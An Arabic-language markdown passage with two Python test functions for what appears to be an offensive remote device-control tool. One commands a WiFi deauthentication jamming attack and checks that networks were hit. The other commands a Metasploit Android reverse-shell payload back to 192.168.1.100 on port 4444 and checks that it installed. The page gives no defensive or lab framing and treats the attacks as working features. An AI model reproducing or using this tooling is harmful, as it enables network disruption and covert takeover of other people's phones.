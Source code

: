 #### 3. **اختبار هجوم WiFi:**
```python
def test_wifi_attack_real():
    """اختبار فعلي لهجوم WiFi"""
    device_id = "test_device_123"
    
    # إرسال أمر هجوم WiFi
    result = command_executor.send_command(device_id, "wifi_jamming", {
        "attack_type": "deauth",
        "target_ssid": "test_network",
        "duration": 10,
        "interface": "wlan0"
    })
    
    # التحقق من النتيجة
    assert result.get('success') == True, "فشل في هجوم WiFi"
    assert 'networks_attacked' in result.get('data', {}), "لا توجد شبكات مهاجمة"
    assert result['data']['networks_attacked'] > 0, "عدد الشبكات المهاجمة صفر"
    
    print("✅ نجح اختبار هجوم WiFi")
    print(f"📶 تم هجوم {result['data']['networks_attacked']} شبكة WiFi")
    
    return result
```

#### 4. **اختبار هجوم Metasploit:**
```python
def test_metasploit_attack_real():
    """اختبار فعلي لهجوم Metasploit"""
    device_id = "test_device_123"
    
    # إرسال أمر هجوم Metasploit
    result = command_executor.send_command(device_id, "mobile_attack", {
        "attack_type": "metasploit",
        "target_os": "android",
        "payload_type": "reverse_shell",
        "lhost": "192.168.1.100",
        "lport": 4444
    })
    
    # التحقق من النتيجة
    assert result.get('success') == True, "فشل في هجوم Metasploit"
    assert 'payload_installed' in result.get('data', {}), "لا يوجد تأكيد تثبيت Payload"
    
    print("✅ نجح اختبار هجوم Metasploit")
    print(f"📱 تم تثبيت Payload: {result['data']['payload_installed']}")
    
    return result
```

---
